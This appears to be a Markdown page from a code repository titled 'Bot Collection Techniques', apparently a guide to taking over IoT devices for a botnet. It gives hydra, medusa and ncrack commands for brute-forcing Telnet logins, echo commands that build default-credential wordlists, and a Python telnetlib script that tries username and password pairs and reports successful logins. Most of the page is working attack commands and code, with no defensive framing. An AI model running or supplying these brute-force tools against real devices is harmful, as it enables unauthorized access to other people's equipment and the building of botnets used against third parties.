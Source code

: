 ## 🛠️ Bot Collection Techniques

### **1. Telnet Brute Force**
```bash
# Using hydra
hydra -L users.txt -P passwords.txt telnet://192.168.1.1

# Using medusa
medusa -h 192.168.1.1 -u admin -P passwords.txt -M telnet

# Using ncrack
ncrack -p 23 --user admin -P passwords.txt 192.168.1.1
```

### **2. Credential Lists**
Create targeted wordlists:
```bash
# Common usernames
echo -e "admin\nroot\nuser\nguest\nsupport\nservice\nadmin\noperator" > users.txt

# Common passwords
echo -e "admin\npassword\n12345\n123456\nroot\nadmin\n\npassword\n1234" > passwords.txt

# IoT-specific passwords
echo -e "admin\npassword\n12345\n123456\nroot\nadmin\n\npassword\n1234\nadmin\npassword\n12345\n123456\nroot\nadmin\n\npassword\n1234" > iot_passwords.txt
```

### **3. Automated Collection Scripts**

#### **Python Telnet Scanner**
```python
#!/usr/bin/env python3
import telnetlib
import threading
import socket

def test_telnet(ip, username, password):
    try:
        tn = telnetlib.Telnet(ip, 23, timeout=5)
        tn.read_until(b"login: ", timeout=5)
        tn.write(username.encode('ascii') + b"\n")
        tn.read_until(b"Password: ", timeout=5)
        tn.write(password.encode('ascii') + b"\n")
        
        result = tn.read_until(b"#", timeout=5)
        if b"#" in result or b"$" in result:
            print(f"[SUCCESS] {ip}:{username}:{password}")
            return True
    except:
        pass
    return False

# Usage
test_telnet("192.168.1.1", "admin", "admin")
```
